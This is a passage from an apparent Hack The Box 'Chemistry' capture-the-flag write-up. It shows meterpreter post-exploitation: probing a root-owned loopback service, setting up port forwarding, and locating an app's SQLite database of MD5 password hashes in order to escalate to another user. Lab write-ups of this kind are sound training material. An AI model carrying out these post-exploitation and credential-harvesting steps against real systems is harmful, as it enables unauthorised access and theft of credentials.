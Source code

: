 That `root` user is running service on loopback interface on port `8080`, and it would be worth to check it. However we are not able access locally with `curl`.
```
meterpreter > shell
Process 1296 created.
Channel 1 created.
curl -v http://127.0.0.1:8080
*   Trying 127.0.0.1:8080...
* TCP_NODELAY set
* connect to 127.0.0.1 port 8080 failed: Connection refused
* Failed to connect to 127.0.0.1 port 8080: Connection refused
* Closing connection 0
```

Nor we could access it with meterpreter port forwarding.
```
meterpreter > portfwd add -l 8080 -p 8080 -r 127.0.0.1
[*] Forward TCP relay created: (local) :8080 -> (remote) 127.0.0.1:8080
```
```
┌──(magicrc㉿perun)-[~/attack/HTB Chemistry]
└─$ curl -v http://127.0.0.1:8080
*   Trying 127.0.0.1:8080...
* Connected to 127.0.0.1 (127.0.0.1) port 8080
* using HTTP/1.x
> GET / HTTP/1.1
> Host: 127.0.0.1:8080
> User-Agent: curl/8.11.1
> Accept: */*
> 
* Request completely sent off
* Recv failure: Connection reset by peer
* closing connection #0
curl: (56) Recv failure: Connection reset by peer
```

Knowing all that let's try to elevate priviliges to `rosa`. Python web application, with use of which we've gained foothold, is supporting authentication, thus it should store credentials somewhere. Let's find this place and check if it contains credentials for `rosa` and if we could use them gain access over SSH.

As application code is available in `/home/app/app.py`, let's analyse it with simple `cat -n app.py`. We can see two interesting things:
- `12:` `app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///database.db'` - it's using Sqlite database from `database.db`
- `73:` `if user and user.password == hashlib.md5(password.encode()).hexdigest():` - password are hashed with MD5

`database.db` file could be found in `/home/app/instance` directory.
```
meterpreter > ls /home/app/instance/
Listing: /home/app/instance/
============================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100700/rwx------  20480  fil   2025-03-07 20:12:42 +0100  database.db
```
